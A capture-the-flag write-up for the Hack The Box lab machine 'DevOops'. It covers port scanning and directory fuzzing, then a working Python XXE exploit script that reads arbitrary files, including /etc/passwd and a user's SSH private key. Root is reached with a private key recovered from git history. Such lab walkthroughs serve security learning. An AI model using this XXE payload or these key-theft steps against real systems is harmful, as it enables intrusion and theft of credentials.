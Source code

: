 # [DevOops](https://app.hackthebox.com/machines/devoops)

```bash
nmap -p- --min-rate 10000  10.10.10.91 -Pn
```

![Alt text](img/image.png)

After discovering open ports(22,5000), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,5000 10.10.10.91 -Pn
```

![Alt text](img/image-1.png)


Let's do Directory fuzzing for port (5000) on our target.

```bash
gobuster dir -u http://10.10.10.91:5000 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 40
```

![Alt text](img/image-2.png)


On '/**upload**' menu, I see that I can add 'XML' Files into machine.

![Alt text](img/image-3.png)

If there is XML files, it means that XXE attack (XML External Entity) should be happen.

I wrote malicious 'dr4ks.xml' file as below so that we can read '/etc/lsb-release' file content

![Alt text](img/image-4.png)

Let's upload this and see the result.

![Alt text](img/image-5.png)


Hola, it works.

Let's write Automation script that we enter filename into script and it reads for us.

```python
#!/usr/bin/python3

import re
import requests
import sys

if len(sys.argv) < 2:
    print(f"usage: {sys.argv[0]} [path to file]")
    sys.exit()

file_name = sys.argv[1]

xml = f'''<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY dr4ks SYSTEM "file://{file_name}">
]>

<item>
<Author>
&dr4ks;
</Author>
<Subject>Testing</Subject>
<Content>This is a test</Content>
</item>'''

files = {'file': ('xxe.xml', xml, 'text/xml')}
try:
    r = requests.post('http://10.10.10.91:5000/upload', files=files)
    if r.status_code == 200:
        pattern = re.compile(r"Author: \n(.*)\n Subject:", flags=re.DOTALL)
        print(re.search(pattern, r.text).group(1).strip())
        sys.exit()
    else:
        pass
except requests.exceptions.ConnectionError:
    pass
print("[-] Unable to connect. Either site is down or file doesn't exist or can't be read by current user.")
```

Let's execute this script and add filename as input.

![Alt text](img/image-6.png)


I read '/etc/passwd' file to learn usernames of machine.

![Alt text](img/image-7.png)


One of the users is 'roosa', let's try to read private key (id_rsa) of this user.

![Alt text](img/image-8.png)

Let's login via this id_rsa.

```bash
chmod 600 id_rsa
ssh -i id_rsa roosa@10.10.10.91
```

user.txt

![Alt text](img/image-9.png)


For enumeration, I just searched for '.git' folder that I can get last commits of repository.

```bash
find / -type d -name '.git' 2>/dev/null
```

![Alt text](img/image-10.png)


Current status of repository.
```bash
git status
```

![Alt text](img/image-11.png)


Let's look at `git` history.

```bash
git log --name-only --oneline
```

![Alt text](img/image-12.png)


From here, we grab commit id (d387abf) which contains commit that 'authcredentials.key' file is located here.

Let's back to this (d387abf) commit as below.

```bash
git checkout d387abf -- resources/integration/authcredentials.key
```

Now, we can read content of this.

![Alt text](img/image-13.png)


Maybe this is private key (id_rsa) of root user, let's try to login.

```bash
chmod 600 id_rsa
ssh -i id_rsa root@10.10.10.91
```

root.txt

![Alt text](img/image-14.png)